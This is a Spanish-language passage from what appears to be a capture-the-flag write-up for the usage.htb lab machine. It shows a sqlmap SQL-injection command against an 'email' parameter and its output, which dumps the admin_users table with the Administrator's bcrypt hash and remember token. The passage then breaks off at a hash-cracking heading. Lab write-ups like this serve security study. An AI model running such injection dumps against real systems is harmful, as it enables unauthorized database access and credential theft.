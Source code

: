 Realizamos un `dump` del contenido de las columnas presentes en la tabla `admin_users` y logramos encontrar la contraseña de usuario `Administrator` en formato hash.

```bash
❯ sqlmap -r request --level 5 --risk 3 --threads 10 -p email --batch --dbms MySQL -D usage_blog -T admin_users --dump
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.9.2#stable}
|_ -| . ["]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end users responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 00:24:05 /2025-03-07/

...[snip]...
                
Database: usage_blog
Table: admin_users
[1 entry]
+----+---------------+---------+--------------------------------------------------------------+----------+---------------------+---------------------+--------------------------------------------------------------+
| id | name          | avatar  | password                                                     | username | created_at          | updated_at          | remember_token                                               |
+----+---------------+---------+--------------------------------------------------------------+----------+---------------------+---------------------+--------------------------------------------------------------+
| 1  | Administrator | <blank> | $2y$10$ohq2kLpBH/ri.P5wR0P3UOmc24Ydvl9DA9H1S6ooOMgH5xVfUPrL2 | admin    | 2023-08-13 02:48:26 | 2023-08-23 06:02:19 | lS1mrTh3fcFaqE7bbfirAWBB7cFKfOjjAss6g8ZnkQ6Pd38Hzn4mpugpx45v |
+----+---------------+---------+--------------------------------------------------------------+----------+---------------------+---------------------+--------------------------------------------------------------+

[00:31:14] [INFO] table 'usage_blog.admin_users' dumped to CSV file '/home/kali/.local/share/sqlmap/output/usage.htb/dump/usage_blog/admin_users.csv'
[00:31:14] [WARNING] HTTP error codes detected during run:
500 (Internal Server Error) - 909 times
[00:31:14] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/usage.htb'

[*] ending @ 00:31:14 /2025-03-07/
```

### Cracking hashes
